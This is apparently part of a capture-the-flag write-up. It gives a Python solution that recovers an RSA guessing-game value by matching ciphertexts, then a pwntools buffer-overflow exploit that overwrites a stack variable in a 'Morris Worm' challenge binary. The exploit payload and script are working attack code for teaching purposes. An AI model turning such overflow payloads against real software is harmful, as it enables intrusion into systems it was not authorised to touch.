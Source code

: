 The key insight is that we can encrypt, using Bob's public key the message that Alice would send for both the affirmative and negative case and check which one matches, following the whole conversation and finding out the value

```py
#!/usr/bin/env python3
from Crypto.Util.number import getPrime,bytes_to_long,long_to_bytes

f=open("output.txt","r")

n= #bob_n
e=65537

def sendToBob(msg):
    pt=bytes_to_long(msg.encode())
    ct=pow(pt,e,n)
    return f"alice: {ct}"

#skip first messages
for i in range(7):
    f.readline()

upperbound=2**501
lowerbound=0
while(upperbound-lowerbound>1):
    mid=(upperbound+lowerbound)//2
    f.readline()
    response=f.readline()
    if(response.strip()==sendToBob(f"Yes!, my number is greater than {mid}")):
        lowerbound=mid
    else:
        upperbound=mid

#print the flag
print(long_to_bytes(upperbound).decode())
```

## Binary Exploitation 💻
### Morris Worm
This challenge reads 1337 characters from **stdin** and stores them in an **array of chars**, it then checks if a variable is 1337 and if so we get the flag, the problem is that the value of the variable is 69 and it doesn't change.
The array of chars, however, is only **44 bytes long** and we can write more than that, so it is vulnerable to **buffer-overflow**, we just need to fill the array and then insert 1337 using [p32](https://docs.pwntools.com/en/stable/util/packing.html) to correctly **overwrite the variable**.
It is also possible to exploit the challenge using a ret2win attack, leveraging the buffer overflow vulnerability and the absence of PIE (Position Independent Executable) in the binary.

```py
#!/usr/bin/env python3
from pwn import *

# Change this to remote if you want to run it on remote server
if args.REMOTE:
    r = remote('localhost', 1337) # change host and port
else:
    r = process('./pwn1')

PAYLOAD = b'A' * 44 + p32(1337)
r.recvuntil(b'?\n')
r.sendline(PAYLOAD + b'\x00')

r.interactive()
```